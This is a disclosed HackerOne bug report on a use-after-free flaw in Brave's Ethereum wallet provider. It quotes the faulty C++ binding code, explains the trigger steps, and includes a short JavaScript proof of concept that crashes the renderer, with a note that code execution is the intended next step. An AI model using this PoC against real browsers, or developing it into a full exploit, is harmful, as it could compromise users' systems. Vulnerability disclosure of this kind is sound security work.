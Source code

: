 # UAF on JSEthereumProvider

## Report Details
- **Report ID**: 1977252
- **URL**: https://hackerone.com/reports/1977252
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2023-05-08T16:05:40.214Z
- **Disclosed**: 2023-10-11T17:02:49.777Z

## Reporter
- **Username**: nick0ve
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: brave

## Vulnerability Information
There is a UAF (Use After Free) vulnerability in the renderer implementation of the Ethereum wallet.

When the Ethereum wallet is connected, every V8 render gets this piece of code installed, creating a new object ethereum accessible from V8. You can find the code here: https://github.com/brave/brave-core/blob/45c6649a124dd8d0ffb19ca6f7047bebb6e6da2c/components/brave_wallet/renderer/js_ethereum_provider.cc#L163-L164

I will highlight some parts of the JSEthereumProvider::Install function that show the bug:

```cpp
// 1. Create a new handle to JSEthereumProvider and convert it to a v8::Object
gin::Handle<JSEthereumProvider> provider =
    gin::CreateHandle(isolate, new JSEthereumProvider(render_frame));
if (provider.IsEmpty()) {
  return;
}
v8::Local<v8::Value> provider_value = provider.ToV8();
v8::Local<v8::Object> provider_object =
    provider_value->ToObject(context).ToLocalChecked();

// 2. Create a v8::Proxy for the provider
if (!v8::Proxy::New(context, provider_object, ethereum_proxy_handler_obj)
         .ToLocal(&ethereum_proxy)) {
  // Error handling
}

// 3. Expose it through window.ethereum
global
    ->Set(context, gin::StringToSymbol(isolate, kEthereum), ethereum_proxy)
    .Check();

// 4. Create a new v8::Object and make it accessible through ethereum._metamask
v8::Local<v8::Object> metamask_obj = v8::Object::New(isolate);
provider_object
    ->Set(context, gin::StringToSymbol(isolate, kMetaMask), metamask_obj)
    .Check();

// 5. [BUG] Set a new property called `IsUnlocked`, creating a new callback object bound to `base::Unretained(provider.get())`, making the wrong assumption that ethereum._metamask can never outlive ethereum
provider_object
    ->Set(context, gin::StringToSymbol(isolate, kIsUnlocked),
          gin::CreateFunctionTemplate(
              isolate, base::BindRepeating(&JSEthereumProvider::IsUnlocked,
                                           base::Unretained(provider.get())))
              ->GetFunction(context)
              .ToLocalChecked())
    .Check();
```
The bug can be triggered through JavaScript with the following steps:

1. Get a reference to ethereum._metamask.
2. Delete the ethereum object, which deletes provider.get().
3. Call isUnlocked(), which will point to the deleted provider.get() pointer.

Here is a PoC (Proof of Concept) that can crash the renderer process:
```
function triggerGC() {
  for (let i = 0; i < 100; i++) {
    let a = new Array(1000000);
  }
}

let uafObj = ethereum._metamask;
delete ethereum;
triggerGC();
console.log(await uafObj.isUnlocked());
```

Will try to follow up with a full exploit to show code execution on the renderer process.

## Impact

Get code execution on the renderer process.

## Attachments
No attachments
